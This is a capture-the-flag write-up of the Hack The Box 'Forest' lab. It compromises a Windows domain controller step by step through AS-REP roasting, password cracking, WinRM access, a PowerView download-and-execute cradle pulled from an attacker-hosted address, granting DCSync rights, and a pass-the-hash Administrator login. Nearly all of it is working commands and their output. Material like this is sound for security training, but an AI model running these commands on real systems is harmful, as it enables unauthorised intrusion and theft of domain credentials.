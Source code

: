 ```yaml
---
title: "Forest writeup [HTB]"
categories:
    - Writeup
tags:
    - Windows
    - Active Directory
---
```


Forest is a Windows-based HTB machine with an Easy difficulty rating. The initial nmap scan reveals open ports including domain, Kerberos, and LDAP services. Exploitation involves enumerating users, obtaining a Kerberos hash for svc-alfresco, cracking the password, and gaining a foothold. Privilege escalation is achieved by abusing Exchange Windows Permissions, creating a new user, granting DCSync rights, and finally dumping domain credentials to obtain Administrator access. The machine was successfully compromised, with user and root flags obtained

* Difficulty: Easy
* OS: Windows
* Rating: 4.6
* Release Date: October 12, 2019 5:00 PM (GMT+1)

***

I began by enumerating the open ports to identify the services running on the box. Noticing port 88, it's likely that this box is a Domain Controller (DC). Additionally, SMB and LDAP are available, which are ideal for gathering more information. Let's start with SMB.

```
Nmap scan report for htb.local (10.10.10.161)
Host is up (0.30s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

Using `nxc`, I managed to obtain a list of valid local and domain users by exploiting anonymous login on SMB.

```bash
nxc smb 10.10.10.161 -u '' -p '' --user
```

```bash
Administrator
Guest
DefaultAccount
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
SM_9b69f1b9d2cc45549
SM_7c96b981967141ebb
SM_c75ee099d0a64c91b
SM_1ffab36a2f5f479cb
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxc0a90c9
HealthMailbox670628e
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

The easiest attack path when you have a valid list of domain users is to check if any accounts have pre-authentication disabled. That's exactly what I did using the GetNPUsers script from Impacket, and I found the account `svc-alfresco`.

```bash
impacket-GetNPUsers htb.local/ -request -format john -outputfile files/hash.txt
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2024-08-27 19:16:24.316379  2024-08-27 19:15:56.582001  0x410200 

$krb5asrep$svc-alfresco@HTB.LOCAL:82ea9cf186f131cd904ce48c80d5d2f3$973d513bab9a3a49b7b4e7a93b117bd26d54aa2b98917631d3762f0c6d53e5233db24b33d669463dae69a8c7ef37a222dc489b22db725b9718394894e7ab773c25e79a82a4bf2f4dc88b5466be30583c2c40e8d4aa1694cfb19e5846b98a77260209e978ea9c89e11b569b89c026fabf872579bec799a01f59cd9a538d7eda0ddab8dbc925962a35b6b30258911353d3920c7675a7c592c2e89e679b79856bdd0a736d821881ebd242643f2d3974e22c10147e01d1eda31bebd2ad9a210207d89de32061b682b2d45e77a5458ec825514976d8c5885fc9f931f6ce7a49f0db8cefda4c36d0a0
```

now we have the hash of `svc-alfresco` user let try to crack it 

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
s3rvice          ($krb5asrep$svc-alfresco@HTB.LOCAL)     
```

After obtaining valid user credentials, let's start enumerating again to see what actions we can perform with them. Returning to nxc, we found that we can use WinRM to access that user.

```bash
nxc winrm 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
WINRM       10.10.10.161    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

By gaining shell access, we can retrieve the user flag located on the user's desktop. Upon examining the user's privileges, we discovered that they have interesting permissions that allow the creation of domain users. Using BloodHound, I was able to visualize a clear path to compromising the domain admin. The user is a member of the 'Account Operators' group, which has 'GenericAll' on 'Exchange Windows Permissions.' This, in turn, has 'WriteDACL' on the htb.local domain. By combining these privileges, we can create a domain user, grant them the right to perform a DCSync attack, and obtain the admin hash

```bash
evil-winrm  -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
*Evil-WinRM* PS C:\users\svc-alfresco> cd  C:\users\svc-alfresco
*Evil-WinRM* PS C:\users\svc-alfresco\Desktop> ls
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/27/2024   6:45 AM             34 user.txt
```

```bash
*Evil-WinRM* PS C:\users\svc-alfresco\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

```bash
nxc ldap 10.10.10.161 -u 'svc-alfresco' -p 's3rvice' --bloodhound -c all --dns-server 10.10.10.161
```

![image.png](/assets/images/posts/image.png)

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user john Password123! /add /domain
The command completed successfully.
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" john /add
The command completed successfully.
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.16.3:8000/PowerView.ps1'))
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $pass = convertto-securestring 'Password123!' -asplain -force 
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $cred = new-object system.management.automation.pscredential('htb\john', $pass)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync
```

we can obtain the adm password using DCsync attack

```bash
impacket-secretsdump 'htb.local/john:Password123!@HTB.LOCAL'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```

```bash
evil-winrm  -i 10.10.10.161 -u 'Administrator' -H 32693b11e6aa90eb43d32c72a07ceea6                                    

*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator> ls
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/27/2024   6:45 AM             34 root.txt

```

![Screenshot 2024-08-28 011747.png](/assets/images/posts/Screenshot_2024-08-28_011747.png)